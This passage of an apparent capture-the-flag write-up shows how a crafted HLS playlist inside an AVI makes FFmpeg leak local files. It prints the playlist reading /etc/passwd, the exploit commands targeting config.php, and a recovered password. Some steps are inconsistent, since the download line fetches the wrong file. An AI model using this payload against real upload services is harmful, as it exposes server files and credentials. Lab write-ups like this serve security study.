



4.1 FFMPeg
There's a tool called “FFMPeg” to convert files from to differents formats.
FFmpeg HLS vulnerability
FFmpeg is an open source software used for processing audio and video formats.
You can use a malicious HLS playlist inside an AVI video to read arbitrary files.
The script creates an AVI that contains an HLS playlist. The playlist generated by this script looks like this:
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
/some/txt/file.txt
#EXTINF:1.0
file:///etc/passwd
#EXT-X-ENDLIST
There are several things to note about the way HLS playlists are processed:
• To process a playlist ffmpeg concatenates all segments and processes it as single file.
• To determine the type of this file FFmpeg uses the first segment of the playlist.
• FFmpeg processes txt files in a special way. It tries to show a screen capture of a tty printing this file.
So, when FFmpeg sees playlist as above, it determines the type of whole file as .txt, then concatenates its' content with the contents of /etc/passwd, and then "plays" it by drawing a tty that shows the contents.
1. Download the exploit from here.
$ wget http://movie.hmv/converted_videos/config.mp4
$ chmod 777 gen_avi.py
2. Run the exploit as follows.
$ python gen_avi.py file:///var/www/html/data/config.php config.avi
3. Go to the website and upload the “output.avi” file.

4. Download to the Kali Machine the converted file.
$ wget http://movie.hmv/converted_videos/config.mp4
Output:

5. Open the file “config.mp4” with any Video Player.

You'll get the credentials of an user: tarantino:killer